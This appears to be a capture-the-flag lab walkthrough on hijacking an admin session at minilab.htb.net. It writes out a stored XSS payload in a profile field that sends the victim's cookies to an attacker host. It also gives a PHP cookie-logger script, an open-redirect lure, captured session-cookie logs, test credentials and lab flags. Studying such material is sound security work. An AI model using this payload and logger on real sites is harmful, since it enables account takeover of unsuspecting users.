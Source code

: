 ﻿You are currently participating in a bug bounty program.

- The only URL in scope isÂ `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: heavycat106
    - Password: rocknrol
- Through dirbusting, you identified the following endpointÂ `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

![Pasted image 20250219131413.png](../../../IMAGES/Pasted%20image%2020250219131413.png)
# First Question
---
Let's begin by checking the URL:

![Pasted image 20250219135123.png](../../../IMAGES/Pasted%20image%2020250219135123.png)

We can `Save`, `Share`, `Change Visibility` and `Delete`, we can begin by testing if the parameters are injectable to XSS:

![Pasted image 20250219135255.png](../../../IMAGES/Pasted%20image%2020250219135255.png)

Now, let's share:

![Pasted image 20250219135309.png](../../../IMAGES/Pasted%20image%2020250219135309.png)

There it is, it seems like the `Country` parameter is vulnerable to XSS, knowing this, we can craft a payload to get the admin credentials:

```js
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<TUN0IP>:PORT/index.php?c=' + document.cookie;"></video>
```

Next, create a `index.php` file with the following contents in it:

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

Let's start the server:

```php
php -S IP:PORT
```

Now, once we've done this, in order to simulate that the admin user's visited the site, we need to go back and view the other endpoint:

```
http://minilab.htb.net/submit-solution
```

If we visit this, the following happens:

![Pasted image 20250219135805.png](../../../IMAGES/Pasted%20image%2020250219135805.png)

So, we got an `Open Redirect`, we need to specify `?url=` and submit the URL we want to redirect too, we can do the following:

```http
minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
```

And, we'll see the following in our php server:

```log
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Accepted
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 [302]: GET /index.php?c=auth-session=s%3A5IchvLZHGiNrCoU0u1Swpgdlq6WWWBJh.%2BeZAaKIbOJPi3GGw%2BW8A3r0%2Bjdb%2B%2FsVawbUxIB8oUdU
[Wed Feb 19 19:06:55 2025] 10.129.136.191:51172 Closing
```

If we check the site, we can see this:

![Pasted image 20250219140213.png](../../../IMAGES/Pasted%20image%2020250219140213.png)

It was indeed the admin user and we got the `auth-session` cookie, we can now authenticate as admin:

![Pasted image 20250219140807.png](../../../IMAGES/Pasted%20image%2020250219140807.png)

If we refresh the page:

![Pasted image 20250219140815.png](../../../IMAGES/Pasted%20image%2020250219140815.png)

We are now admin user, let's make it public:

![Pasted image 20250219140839.png](../../../IMAGES/Pasted%20image%2020250219140839.png)

If we go to share, we can see this:

![Pasted image 20250219140922.png](../../../IMAGES/Pasted%20image%2020250219140922.png)

We get the first flag, also, the yellow icon that says `Flag2`, downloads the pcap file for the next question, first flag is:

```
[YOU_ARE_A_SESSION_WARRIOR]
```

# Second Question
---

Now, let's open the pcap file:

![Pasted image 20250219142017.png](../../../IMAGES/Pasted%20image%2020250219142017.png)

We can filter:

![Pasted image 20250219142255.png](../../../IMAGES/Pasted%20image%2020250219142255.png)

We can see it selects the `Get /?redirect_uri` packet, if we open it, we can see this:

![Pasted image 20250219142323.png](../../../IMAGES/Pasted%20image%2020250219142323.png)

We got our flag:

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

![Pasted image 20250219142344.png](../../../IMAGES/Pasted%20image%2020250219142344.png)

